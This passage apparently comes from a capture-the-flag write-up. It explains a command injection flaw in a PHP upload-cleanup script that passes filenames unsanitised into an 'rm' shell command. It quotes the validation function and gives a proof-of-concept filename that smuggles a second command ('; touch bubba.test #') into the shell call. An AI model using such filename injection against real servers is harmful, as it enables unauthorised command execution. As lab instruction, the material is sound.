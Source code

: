 ```php
?>
```

Looking at this script, there is a command injection vulnerability. The script lists all files in the `/var/www/html/uploads/` directory and executes the following command with each filename as `$value`:

```bash
nohup /bin/rm -f /var/www/html/uploads/$value > /dev/null 2>&1 &
```

As long as the filename does not pass the check from the function `check_ip`, then the filename will be directly inserted into the command and executed. The function `check_ip` is defined in `lib.php` as follows:

```php
function check_ip($prefix,$filename) {
  //echo "prefix: $prefix - fname: $filename<br>\n";
  $ret = true;
  if (!(filter_var($prefix, FILTER_VALIDATE_IP))) {
    $ret = false;
    $msg = "4tt4ck on file ".$filename.": prefix is not a valid ip ";
  } else {
    $msg = $filename;
  }
  return array($ret,$msg);
}
```

So, if the filename does not match the `FILTER_VALIDATE_IP` filter, then the function returns `false`! This can be tested as a command injection vulnerability with the following commands. If the injection works, then `bubba.test` should be created somewhere on the system:

```bash
# create the filename to try and execute the following command:
# nohup /bin/rm -f /var/www/html/uploads/69; touch bubba.test #.txt > /dev/null 2>&1 &
touch '/var/www/html/uploads/69; touch bubba.test #.txt'
# check if it worked
find / -iname bubba.test 2>/dev/null
```

![command_injection](./networked/command_injection.png)
